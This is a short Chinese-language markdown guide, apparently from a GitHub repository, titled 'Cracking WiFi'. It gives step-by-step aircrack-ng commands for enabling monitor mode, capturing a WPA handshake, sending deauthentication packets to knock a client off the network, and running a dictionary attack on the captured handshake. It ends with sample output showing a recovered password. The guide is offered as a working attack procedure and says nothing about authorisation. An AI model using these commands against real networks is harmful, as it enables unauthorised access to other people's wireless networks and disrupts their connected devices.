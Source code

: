 # 破解 WIFI

>   破解成功与否取决于字典文件覆盖率，一般只能破解纯数字或纯字母

- 执行`sudo apt-get install aircrack-ng`安装`aircrack-ng`
- 执行`ifconfig`查看网卡信息，得到无线网卡接口为`wlp61s0`
- 执行`sudo airmon-ng`列出支持监控的无线网卡

``` log
PHY	Interface	Driver		Chipset

phy0	wlp61s0		iwlwifi		Intel Corporation Wireless-AC 9260 (rev 29)
```

- 执行 `sudo airmon-ng start wlp61s0` 开启监控模式，成功后网卡接口变为 `wlp61s0mon`
- 执行 `sudo airodump-ng wlp61s0mon` 查看网络信息，可以得到附近的Wifi热点列表
- 执行 `sudo airodump-ng -c 6 --bssid <路由器网关> -w <目录+抓包记录文件名前缀> wlp61s0mon` 开始发送握手包
- 执行 `sudo aireplay-ng -0 2 -a <路由器网关> -c <目标设备分配网关> wlp61s0mon`
- 执行 `sudo aircrack-ng -w <字典文件(.txt)> -b <路由器网关> <抓包记录(.cap)>`
- 执行 `sudo airmon-ng stop wlp61s0mon`可以退出监控模式
- 破解成功效果如下：

```log
                               Aircrack-ng 1.6 

      [00:00:01] 15441/539314 keys tested (20206.41 k/s) 

      Time left: 25 seconds                                      2.86%

                           KEY FOUND! [ 19920224 ]


      Master Key     : B2 7F DA 0D B3 8E A7 08 84 11 59 C8 55 58 84 52 
                       AD ED BD A1 2C 92 E3 5D 96 75 7A 7C 14 73 13 7B 

      Transient Key  : 39 59 FD 98 08 65 DC 8D 27 1C 73 AE E3 3E 7E 41 
                       31 AA BF AD 2A 3F 4F 28 C6 80 4A 53 89 CC C8 5B 
                       0D A4 77 DC C6 07 66 C2 B3 C6 D1 F8 64 30 EE F3 
                       9C ED FC 6D DF 4D 9E 70 15 27 CF C0 ED 5A 97 F6 

      EAPOL HMAC     : 60 95 69 8E 2C 93 BE CD 33 64 5E C7 65 5B AC 31
```